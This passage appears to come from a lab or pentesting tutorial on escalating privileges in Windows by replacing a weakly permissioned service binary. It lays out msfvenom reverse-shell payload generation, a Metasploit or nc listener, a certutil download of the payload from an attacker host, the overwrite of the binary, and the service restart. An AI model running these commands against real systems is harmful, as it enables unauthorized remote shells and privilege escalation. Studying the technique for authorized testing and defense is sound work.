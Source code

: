 ### **EXPLOITING SERVICE WITH METASPLOIT**

3.  we can use msfvenom to create a reverse shell payload  
    `msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f exe-service -o reverse.exe`  
    
    ![](../../../../img/Windows-Environment/42.png)

    ??? info "NOTE"

        If we had found this service running from the Program Files (x86) folder, we may want to consider making a 32-bit executable, as a 64-bit one may not work for the service.
    
4.  Start your listener on the attacking machine  
    `msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT [PORT]; run"`  
    
    ![](../../../../img/Windows-Environment/43.png)


    ??? info "NOTE"

        Alternatively, we can start a listener using nc:  `sudo rlwrap -cAr nc -lvnp 1338`.
    
5.  After Strarting listener, transfer reverse.exe to the target machine.  
    `certutil -urlcache -f http://10.11.92.52:8000/reverse.exe reverse.exe`  
    
    ![](../../../../img/Windows-Environment/44.png)
    
6.  To exploit the service, replace filepermservice.exe with reverse.exe, while maintaining the original binary name.
    
    `Copy-Item -Path "C:\Temp\reverse.exe" -Destination "C:\Program Files\File Permissions Service\filepermservice.exe" -Force`  

    ![](../../../../img/Windows-Environment/45.png)

    ??? info "NOTE"

        For cmd, we can use the following command: `copy /y c:\Temp\reverse.exe "c:\Program Files\File Permissions Service\filepermservice.exe"`

7.  Now, all we have to do is run `sc stop filepermsvc` , `sc start filepermsvc` or `net start filepermsvc` on the target Machine to execute the exploit.
    
    ![](../../../../img/Windows-Environment/46.png)
    
    ??? info "IMPORTANT"

        If SeShutdownPrivilege is enabled you can reboot to have the service to restart automatically.  
    `shutdown /r /t 0 /f`